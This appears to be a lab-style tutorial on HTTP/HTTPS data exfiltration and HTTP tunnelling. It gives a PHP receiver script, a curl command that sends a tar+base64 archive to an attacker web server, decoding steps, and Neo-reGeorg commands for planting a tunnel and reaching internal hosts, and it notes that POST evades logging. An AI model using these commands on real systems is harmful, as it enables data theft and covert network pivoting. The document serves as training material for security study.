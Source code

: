 # Data Exfiltration Using HTTP/HTTPS

Before proceeding, ensure you have a fundamental understanding of network protocols.

This guide explains how to use the HTTP/HTTPS protocol to exfiltrate data from a victim to an attacker's machine. The attacker requires control over a web server with a server-side programming language installed. This example uses PHP, but other languages like Python, Golang, or NodeJS can also be used.

---

## HTTP POST Request

Exfiltrating data through HTTP is challenging to detect due to its similarity to legitimate traffic. The POST method is preferred over GET because:

- POST requests are not cached.
- POST requests do not appear in browser history.
- POST requests cannot be bookmarked.
- POST requests have no restrictions on data length.

### Example: Inspecting Apache Logs

```bash
thm@jump-box:~$ ssh thm@web.thm.com
thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm:
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

- The GET request logs the `file` parameter with base64-encoded data (`thm:tryhackme`).
- The POST request does not log the transmitted data.

---

## HTTP Data Exfiltration Steps

1. **Set up a web server with a data handler**:
    - Example PHP handler:
      ```php
      <?php 
      if (isset($_POST['file'])) {
            $file = fopen("/tmp/http.bs64", "w");
            fwrite($file, $_POST['file']);
            fclose($file);
      }
      ?>
      ```

2. **Send data using `curl`**:
    ```bash
    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
    ```

3. **Verify data on the web server**:
    ```bash
    thm@web:~$ ls -l /tmp/
    -rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
    ```

4. **Fix base64 encoding**:
    ```bash
    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64
    ```

5. **Restore the data**:
    ```bash
    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
    ```

---

## HTTPS Communications

Using HTTPS encrypts transmitted data with SSL keys. This makes it harder to inspect traffic, as shown in the Wireshark capture below.

---

## HTTP Tunneling

HTTP tunneling encapsulates other protocols within HTTP requests. This is useful for accessing internal networks from the Internet.

### Example: HTTP Tunnel with Neo-reGeorg

1. **Generate encrypted tunneling clients**:
    ```bash
    root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm
    ```

2. **Upload the client (e.g., `tunnel.php`) to the victim server**.

3. **Establish the tunnel**:
    ```bash
    root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.82.84/uploader/files/tunnel.php
    ```

4. **Access internal devices**:
    ```bash
    root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
    ```

---

Replicate these steps to establish a tunnel to communicate with `flag.thm.com` (IP: `172.20.0.120`, Port: `80`).